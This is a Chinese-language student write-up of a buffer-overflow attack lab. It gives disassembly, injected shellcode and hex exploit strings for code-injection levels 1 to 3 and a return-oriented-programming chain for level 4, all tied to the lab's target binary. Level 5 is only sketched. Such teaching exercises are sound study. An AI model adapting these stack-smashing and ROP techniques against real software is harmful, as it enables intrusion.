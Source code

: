 #	Attack Lab

##	Code Injecting Attacks

###	Level 1

需要注入的代码

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit.  Getbuf returned 0x%x\n", val);
}
```

很明显针对`getbuf（）`进行注入攻击。

`getbuf（）`汇编

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

我们可以利用滑步修改getbuf的返回地址为Touch1的地址。

Touch1的地址

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

所以我们的字符串即为：

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  #touch1 函数的地址，注意在x86是小端系统 
```

结果

![1556783646931](assets/1556783646931.png)

###	Level 2

需要攻击的代码还是如上的text函数，只不过这次要运行touch2函数

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if(val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(2);
}
```

其实和Level 类似，只不过是针对缓存区进行攻击，除了注入函数地址外，还要注入参数。

touch2地址

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,00%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

`Cookie = 0x59b997fa`

所以注入的汇编代码为

```assembly
mov $0x59b997fa, %rdi  	#设置变量
push $0x4017ec			#返回地址
ret
```

对于二进制码为

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

通过断点，找到这段代码的地址为0x5561dc78

所以最后我们的注入代码为

```assembly
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

结果为

![1556786242718](assets/1556786242718.png)

###	Level 3

需要注入的代码

```c
void touch3(char *sval)
{
    vlevel = 3;
    if(hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    }else{
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```

本题类似Level2，但是需要注意的是采用字符串比较，使用间接应用，应将cookie放在栈中较为安全的位置，使得注入攻击发动后，字符不会被覆盖，由栈的特点和system 5函数调用标准，在注入地址后面追加cookie就不会被覆盖。

先找到test返回地址所在位置。

![1556787385588](assets/1556787385588.png)

为0x5561dcb0

所以注入的cookie的地址为0x5561dca8（0x5561dcb0 - 8 bytes），

所以注入的代码为

```assembly
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61  # cookie asicc 表示
```

结果

![1556790505565](assets/1556790505565.png)

##	Return-Oriented Programming Attacks

###	Level 4

与level 2 类似，但是这次要求使用程序原有的代码进行攻击。

我们需要的指令为

```assembly
popq	%rax
mov		%rax,	%rdi
```

查找汇编，指令一对应的地址为

```assembly
0x4019ab
```

指令二对应的地址为

```assembly
0x4019c5
```

所以注入的代码为

```assembly
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
C5 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```

结果：

![1556794093919](assets/1556794093919.png)

需要说明的是，不适用%rax，使用别的寄存器也是可以完成攻击的。但是 需要选择callee进行保存的寄存器。而此处，%rax是用来存放返回值的。

###	Level 5

与level 3类似。

注入的字符串结构组织

```assembly
溢出区
gadgetk 地址
.......
.......
touch3 地址
cookie
```

大致知道怎么做，但是好麻烦。（留着以后写，如果以后我还能想起来的话）
